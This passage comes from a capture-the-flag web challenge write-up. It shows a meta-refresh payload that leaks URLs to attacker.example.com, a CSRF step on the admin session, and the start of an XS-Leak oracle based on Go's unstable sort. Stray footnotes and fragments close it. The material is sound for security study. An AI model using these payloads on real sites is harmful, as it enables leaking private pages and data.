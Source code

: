 However, you can leak URLs of shared pages using meta tag redirect technique:
```html
<meta name="referrer" content="unsafe-url">
<meta http-equiv="Refresh" content="0; URL=http://attacker.example.com">
```

By the technique, you can access shared pages because you can create notes and share them on the admin's session by CSRF.

Is the remaining task to see a flag note in shared pages? The answer is no.
The most impotant point in this challenge is that shared pages do not show a flag note:
```go
// Hide your secret notes 🤫
notes = lo.Filter(notes, func(note Note, _ int) bool {
    return !secretPattern.MatchString(note.Content)
})
```

Somehow you have to find a way to steal the content of the hidden note.

#### Step 2: XS-Leak with an algorithm-based oracle

The goal in this step to construct an oracle for XS-Leak to steal the hidden note.

In conclusion, the key of the oracle is "unstable sort".

The implementation for getting notes:
```go
func (user *User) getNotes(query string) ([]Note, error) {
    files, err := os.ReadDir(fmt.Sprintf("notes/%s", user.ID))
    if err != nil {
        return nil, err
    }
    notes := make([]Note, 0, len(files))
    for _, file := range files {
        content, err := os.ReadFile(fmt.Sprintf("notes/%s/%s", user.ID, file.Name()))
        if err != nil {
            return nil, err
        }
        notes = append(notes, Note{
            ID:      file.Name(),
            Content: string(content),
        })
    }
    notes = lo.Filter(notes, func(note Note, _ int) bool {
        return strings.Contains(note.Content, query)
    })
    sort.Slice(notes, func(i, j int) bool {
        return notes[i].Content < notes[j].Content
    })
    return notes, nil
}
```

It uses `sort.Slice`:
```go
sort.Slice(notes, func(i, j int) bool {
    return notes[i].Content < notes[j].Content
})
```


[^hidden-note-01]: https://arxiv.org/pdf/2106.05123.pdf
[^hidden-note-02]: Strictly speaking, there are more conditions for the shuffle.
  [CUSTOM_KEY]: true;
  [CUSTOM_KEY]: true;
[^node-ppjail-01]: That's because the default value for `target` option of `tsc` is ES3. ES3 is a very old ECMAScript version. ref: https://www.typescriptlang.org/tsconfig/#target